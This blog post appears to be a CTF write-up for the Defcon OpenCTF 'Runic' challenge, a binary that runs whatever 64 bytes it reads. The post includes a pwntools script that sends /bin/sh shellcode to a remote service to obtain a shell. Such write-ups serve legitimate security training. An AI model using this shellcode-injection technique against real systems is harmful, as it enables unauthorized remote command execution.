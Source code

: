 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Runic"
date:   2015-08-13 18:03:59
categories: CTF
---
```


## Recon

Below is the main function for Runic:

![Runic main](runic.png)

The following events happen:

* read() of 0x40 bytes (64 bytes)
* call() to the buffer that was just read into

We can send a max of 64 bytes of shellcode, which is immediately executed.

## Exploitation

The following script simply sends a `/bin/sh` shellcode, and a shell of ours.

{% highlight python %}
import sys
from pwn import * # pip install pwntools

context(arch='x86', os='linux')

HOST = '127.0.0.1'
PORT = 4444

## Example
# r = process('./runic')
r = remote(HOST, PORT)

# Debug process
'''
gdb.attach(r, """
bp 80484fa
c
""")
'''

shellcode = asm(shellcraft.sh())

r.sendline(shellcode)

r.interactive()
{% endhighlight %}
